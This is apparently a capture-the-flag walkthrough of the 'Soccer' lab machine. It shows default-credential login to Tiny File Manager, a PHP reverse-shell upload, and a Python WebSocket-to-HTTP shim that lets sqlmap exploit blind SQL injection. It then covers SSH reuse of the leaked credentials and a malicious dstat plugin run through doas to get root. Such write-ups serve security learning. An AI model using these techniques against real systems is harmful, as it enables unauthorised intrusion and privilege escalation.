# Soccer


> [!NOTE]
> **TL;DR** A football news site running Tiny File Manager with default credentials lets us upload a PHP web shell for an initial foothold. A hidden vhost, `soc-player.soccer.htb`, exposes a ticket feature that talks to the backend over a WebSocket, and the `id` field is blind-SQL-injectable. Proxying the WebSocket through a small local HTTP shim lets sqlmap automate the extraction, leaking the `player` DB credentials, which are reused for SSH. For root, `player` can run `dstat` via `doas`, and `dstat`'s external-plugin mechanism loads an attacker-controlled Python module, giving a root shell.


---

## Recon

Started with the usual, a full port scan against the target.

```bash
nmap -sV -sC -p- -oA nmap/soccer 10.129.72.111
```



Three ports open. I added the hostname `soccer.htb` to `/etc/hosts` and opened it in the browser.



A football news site (yes, *football*, not soccer). The page offered little interaction, so I fuzzed for directories.

```bash
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/big.txt
```



One result stood out, so I visited it.



It's **Tiny File Manager 2.4.3**. A quick search turned up default credentials for it (documented, among other places, in a Nuclei template).



> [!TIP]
> **The connection** File managers are a double win for an attacker: if the default creds work, you not only get in, you get an upload primitive straight away. On a PHP-served host, an upload primitive is usually RCE.

The default creds `admin:admin@123` logged straight in.



---

## Foothold

With an authenticated file manager on a PHP host, the move is to upload a web shell. I uploaded a `rev_shell.php`, set up a listener, and opened the uploaded file in the browser to execute it.





A shell as the web user.

### Finding the hidden vhost

Enumerating inside the target, `/etc/hosts` revealed another subdomain: `soc-player.soccer.htb`.



I added it to my own `/etc/hosts` and browsed to it.



Same application look, but with extra functionality, including user registration and a ticket feature that checks whether a ticket exists, its price, and the time until the match.



---

## Lateral movement - WebSocket SQL injection

While enumerating the host I found a MySQL database but no usable credentials for it. The ticket feature looked like the likeliest injection point.

> [!NOTE]
> **Reasoning** - The ticket check didn't go through a normal HTTP form, it talked to the backend over a **WebSocket** (port 9091), sending a JSON message with an `id` field. User input reaching a query over WebSocket is still SQL injection, the transport just makes it awkward for standard tooling.

sqlmap doesn't speak WebSocket directly, so I put a small local HTTP server in front of it that forwards each request into the WebSocket and returns the response. sqlmap then attacks the shim as if it were a normal HTTP endpoint.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse, parse_qs, unquote
import websocket, json

WS_URL = "ws://soc-player.soccer.htb:9091/"

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        qs = parse_qs(urlparse(self.path).query)
        payload = unquote(qs.get("id", [""])[0])
        ws = websocket.create_connection(WS_URL)
        ws.send(json.dumps({"id": payload}))
        resp = ws.recv()
        ws.close()

        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.end_headers()
        self.wfile.write(resp.encode())

    def log_message(self, *a):
        pass

HTTPServer(("127.0.0.1", 8081), Handler).serve_forever()
```

Then I pointed sqlmap at the shim. The injection was blind/time-based, so I used the time technique.

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" -p id --dbms=mysql --technique=T \
  --time-sec=5 --level=5 --risk=3 --batch --dbs
```

After a while it dumped a set of credentials.



The creds `player:PlayerOftheMatch2022` matched a local user, so I tried them over SSH.

```bash
ssh player@10.129.72.111
# player:PlayerOftheMatch2022
```



### user.txt



---

## Privilege Escalation - doas + dstat external plugin

Basic enumeration as `player` showed a `doas` binary, and its config allowed `player` to run `/usr/bin/dstat` as root.





> [!NOTE]
> **Reasoning** - `doas` is OpenBSD's `sudo`. Finding it on Linux is a flag in itself, someone set up a specific privileged command. The target of that command, `dstat`, is on GTFOBins, and the technique there is its plugin system.

[GTFOBins](https://gtfobins.github.io/gtfobins/dstat/) documents that `dstat` loads external plugins as Python modules from specific directories, running whatever code they contain.



`/usr/local/share/dstat/` was writable, so I dropped a plugin there. The filename must follow the `dstat_<name>.py` pattern, where `<name>` is what you pass on the command line.

```python
# /usr/local/share/dstat/dstat_root.py
import os
os.execvp("/bin/bash", ["bash"])
```

> [!IMPORTANT]
> **How the attack works**
>
> 1. `doas` lets `player` run `dstat` as **root**.
> 2. `dstat` auto-loads any `dstat_<name>.py` plugin from its plugin dirs, executing the module's code.
> 3. The plugin dir is **writable**, so our module runs as root when dstat loads it.

Since `player` runs `dstat` as root via `doas`, invoking our plugin by name spawns a root shell:

```bash
doas /usr/bin/dstat --root
```



### root.txt



---

## Conclusion

Soccer is a clean easy box with one genuinely interesting step: the WebSocket SQL injection. The foothold (default creds → upload → web shell) and the root (GTFOBins `dstat`) are textbook, but the lateral move forces you to realise standard tooling won't reach a WebSocket, and to bridge sqlmap to it with a tiny proxy. That shim pattern is well worth keeping around, any time input reaches a query over a non-HTTP transport, you can usually wrap it so your normal tools work.

If there's one takeaway: default credentials on a file manager are an RCE primitive on a PHP host, and a privileged binary with a plugin system (`dstat`) is RCE as whoever runs it. Check GTFOBins for any binary you can run via `sudo`/`doas`.

---

## Kill chain summary

|Phase|Vector|Result|
|---|---|---|
|Recon|nmap + gobuster|Tiny File Manager 2.4.3|
|Foothold|Default creds `admin:admin@123` → PHP web shell upload|Shell as web user|
|Lateral movement|WebSocket SQLi (sqlmap via HTTP→WS shim)|Creds `player:PlayerOftheMatch2022` → SSH - user.txt|
|Root|`doas dstat` + writable external plugin dir|`root` - root.txt|

## References

- Tiny File Manager - https://github.com/prasathmani/tinyfilemanager
- GTFOBins - dstat - https://gtfobins.github.io/gtfobins/dstat/
- Blind SQLi over WebSocket (sqlmap bridging) - https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html